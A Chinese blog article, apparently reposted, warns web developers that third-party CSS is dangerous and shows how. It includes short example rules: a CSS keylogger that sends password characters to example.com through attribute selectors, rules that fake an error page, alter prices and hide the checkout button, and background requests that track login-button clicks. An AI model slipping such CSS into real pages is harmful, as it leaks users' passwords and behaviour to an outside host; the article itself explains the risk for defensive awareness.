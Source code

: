 > 本文来自@yeaseonzhang；链接：http://yeaseonzhang.github.io/2018/04/10/%E5%88%AB%E4%BA%BA%E5%86%99%E7%9A%84css%EF%BC%8C%E4%BD%A0%E6%95%A2%E7%94%A8%E5%90%97%EF%BC%9F/

CSS能做的东西还是很多的，随着CSS Houdini（胡迪尼）的标准化，会变得更强大...

正文从这里开始 ~

为了实现高效开发，大多数时候会选择别人实现好的库/组件引用到自己的项目中，但是这样真的安全吗？

大多数web开发者认为只要不使用别人的js，安全就会有保证。Too young, too naive，殊不知“黑客”已经开始在css上做手脚了。

在浏览器设置中用户可以禁用js，但是css却是没有办法禁用的。

首先聊一聊使用第三方资源，能够造成的危害。

## 图片

```html
<img src="https://img.com/iphone6s.jpg">
```
引用第三方图片资源，可能会出现2个问题：

- 图片资源失效
- 图片资源被替换

![201855112740](http://cdn.chenrf.com/201855112740.png)

上图展示了使用第三方图片可能带来的后果，图片资源只会影响自身的状态而不会影响其他部分。

## 脚本Javascript

```js
<script src="http://example.com/script.js"></script>
```

脚本的作用范围就不是图片能够比拟的了，脚本能够随意控制整个页面。

- 读取、篡改页面内容
- 监控用户行为
- 使用用户浏览器的算力进行挖矿
- 使用用户cookie做请求，并转发响应
- 读取、篡改浏览器storage
- More

注：storage/indexDB 如果被更改，即使删除了脚本，这些更改仍然不可逆。

只有在完全信任的情况下，才会选择加载第三方脚本。

## CSS

css在作用范围的方面更加接近于js，因为它同样是在整个页面生效。

css能在以下几个方面对页面进行操作：

- 增、删和改页面内容
- 根据页面内容发起请求
- 响应用户交互

与js相比，css不能做到的是修改storage，也不能用来挖矿。

### 键盘记录器

键盘记录器，指的是页面会记录用户的输入。目前这种行为只存在于使用React/类React框架的页面。

```css
input[type="password"][value$="p"] {
    background: url(//example.com/password?p);
}
```

如果密码输入框，输入以p结尾的密码，就会发起一个//exaple.com/password?p请求。浏览器默认不会记住input输入框的输入，这也就是为什么说这种行为只存在于使用React/类React框架的页面中，下面截取两个例子。

![201855113152](http://cdn.chenrf.com/201855113152.png)

JD主站没有使用React/类React框架，输入框的内容不会再input标签中显示value属性

![201855113214](http://cdn.chenrf.com/201855113214.png)

instagram使用的是React框架，会把输入框的内容同步显示在input的value属性中。

### 隐藏内容

通过一些技巧，将真正的页面内容不展示给用户。

```css
body {
    display: none;
}
html::after {
    content: 'HTTP 500 Server Error';
}
```

上例将真正的主体内容隐藏，展示给用户HTTP 500错误。

### 增加内容

```css
.price-value::after {
    content: '8';
}
```

![201855113428](http://cdn.chenrf.com/201855113428.png)

商品涨价了诶，估计连卖家都不知道。遇到这种情况用户一般都不会产生购买欲望了。

### 移动内容

```css
.move-purchase-button {
    opacity: 0;
    position: absolute;
    top: 100px;
    left: 100px;
}
```

![201855113518](http://cdn.chenrf.com/201855113518.png)

结算按钮被第三方css就这样搞没了，用户根本没办法完成购买行为，这种情况对电商网站很伤，导致“只能看不能买”。

### 监控用户交互

```css
.login-button:hover {
    background: url('//example.com/login-button-hover');
}
.login-button:active {
    background: url('//example.com/login-button-active');
}
```

通过上面的代码，可以用来检测用户在登录按钮的交互状态，是hover还是active(点击)，不同的状态会发送不同的请求。

如果页面中适量增加类似css代码，可以有用来做用户画像分析。

